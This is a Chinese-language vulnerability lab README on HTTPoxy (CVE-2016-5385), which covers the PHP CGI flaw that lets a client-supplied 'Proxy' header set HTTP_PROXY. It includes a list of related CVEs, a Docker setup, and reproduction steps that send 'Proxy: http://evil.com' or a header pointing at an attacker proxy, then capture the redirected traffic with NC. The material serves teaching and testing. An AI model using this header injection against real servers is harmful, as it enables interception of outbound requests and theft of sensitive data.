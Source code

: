 # CGI应用环境变量注入漏洞（CVE-2016-5385）

根据RFC 3875规定，CGI（fastcgi）要将用户传入的所有HTTP头都加上`HTTP_`前缀放入环境变量中，而恰好大多数类库约定俗成会提取环境变量中的`HTTP_PROXY`值作为HTTP代理地址。于是，恶意用户通过提交`Proxy: http://evil.com`这样的HTTP头，将使用缺陷类库的网站的代理设置为`http://evil.com`，进而窃取数据包中可能存在的敏感信息。

PHP5.6.24版本修复了该漏洞，不会再将`Proxy`放入环境变量中。本环境使用PHP 5.6.23为例。

当然，该漏洞不止影响PHP，所有以CGI或Fastcgi运行的程序理论上都受到影响。CVE-2016-5385是PHP的CVE，HTTPoxy所有的CVE编号如下：

- CVE-2016-5385: PHP
- CVE-2016-5386: Go
- CVE-2016-5387: Apache HTTP Server
- CVE-2016-5388: Apache Tomcat
- CVE-2016-6286: spiffy-cgi-handlers for CHICKEN
- CVE-2016-6287: CHICKEN’s http-client
- CVE-2016-1000104: mod_fcgi
- CVE-2016-1000105: Nginx cgi script
- CVE-2016-1000107: Erlang inets
- CVE-2016-1000108: YAWS
- CVE-2016-1000109: HHVM FastCGI
- CVE-2016-1000110: Python CGIHandler
- CVE-2016-1000111: Python Twisted
- CVE-2016-1000212: lighttpd

参考链接：

- https://httpoxy.org/
- http://www.laruence.com/2016/07/19/3101.html

## 环境搭建

启动一个基于PHP 5.6.23 + GuzzleHttp 6.2.0的应用：

```
docker compose up -d
```

Web页面原始代码：[index.php](www/index.php)

## 漏洞复现

正常请求`http://your-ip:8080/index.php`，可见其Origin为当前请求的服务器，二者IP相等：

![](1.png)

在其他地方启动一个可以正常使用的http代理，如`http://*.*.122.65:8888/`。

附带`Proxy: http://*.*.122.65:8888/`头，再次访问`http://your-ip:8080/index.php`：

![](2.png)

如上图，可见此时的Origin已经变成`*.*.122.65`，也就是说真正进行HTTP访问的服务器是`*.*.122.65`，也就是说`*.*.122.65`已经将正常的HTTP请求代理了。

在`*.*.122.65`上使用NC，就可以捕获当前请求的数据包，其中可能包含敏感数据：

![](3.png)
